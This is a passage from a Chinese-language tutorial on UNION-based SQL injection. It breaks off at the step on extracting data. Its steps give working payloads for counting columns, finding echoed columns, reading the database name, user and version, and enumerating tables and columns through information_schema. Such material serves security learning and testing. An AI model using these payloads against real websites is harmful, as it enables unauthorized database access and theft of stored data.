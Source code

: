```sql
id=1 UNION SELECT NULL,NULL,NULL
```

直到返回正常页面，说明列数匹配。  

3. 确认可显示位置

用固定值代替，判断哪些列会被显示到页面：

```sql
id=1 UNION SELECT 1,2,3
```

如果页面正常执行，但没有返回`UNION SELECT`的结果，这是因为代码只返回第一条结果，所以`UNION SELECT`获取的结果没有输出到页面。可以通过设置参数`id`的值，让服务端返回`UNION SELECT`的结果。例如，把`id`的值设置为`-1`，这样数据库没有`id=-1`的数据，就会返回`UNION SELECT`的结果。

页面如果显示了`2`或`3`，就说明对应列的数据会被回显，可以用来显示敏感信息。  

4. 读取数据库信息

假如第2、3列的数据会被回显，不妨尝试在第2列的位置读取数据库信息：

获取当前数据库名：

```sql
id=1 UNION SELECT 1,database(),3
```

获取当前用户：

```sql
id=1 UNION SELECT 1,user(),3
```

获取版本信息：

```sql
id=1 UNION SELECT 1,version(),3
```

5. 获取表和字段

假如获取到当前数据库名是`mydb`，接着获取表名和字段名：

```sql
id=1 UNION SELECT 1,(SELECT TABLE_NAME FROM information_schema.TABLES WHERE TABLE_SCHEMA='mydb' LIMIT 0,1),3
```

如果页面只显示一条数据，可能只展示其中一部分（第一条或最后一条），所以为了保证页面能稳定显示，用`LIMIT`做逐条枚举（`LIMIT 0,1`取第1条，`LIMIT 1,1`取第2条，以此类推）。

假如刚刚获取到一个表名为`emails`，获取这个表的字段名：

```sql
id=1 UNION SELECT 1,(SELECT COLUMN_NAME FROM information_schema.COLUMNS WHERE TABLE_SCHEMA='mydb' AND TABLE_NAME='emails' LIMIT 0,1),3
```

依然是用`LIMIT`做逐条枚举。

6. 获取敏感数据

当获取了库名、表名和字段名时，就可以构造SQL语句查询数据库的数据。假如刚刚获取到`emails`表的一个字段名为`email_id`，则可以构造SQL语句如下：
